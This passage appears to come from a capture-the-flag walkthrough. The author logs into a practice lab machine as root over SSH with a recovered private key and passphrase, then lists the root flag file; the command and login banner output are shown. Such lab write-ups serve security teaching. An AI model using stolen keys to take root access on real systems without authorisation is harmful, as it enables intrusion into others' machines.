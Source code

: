 * Now, using the passphrase we can login to the system using the ssh key.
```code
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa2 root@10.10.202.113
Enter passphrase for key 'id_rsa2': 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Dec  4 14:30:38 UTC 2024

  System load:  0.0                Processes:           109
  Usage of /:   24.5% of 18.53GB   Users logged in:     1
  Memory usage: 62%                IP address for eth0: 10.10.202.113
  Swap usage:   0%


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

146 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 18.04 at
https://ubuntu.com/18-04

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Sep 20 09:19:38 2024 from 192.168.74.128
root@researcher:~# 
```

* Now we can read the root flag
```code
root@researcher:~# ls
flag.txt

```

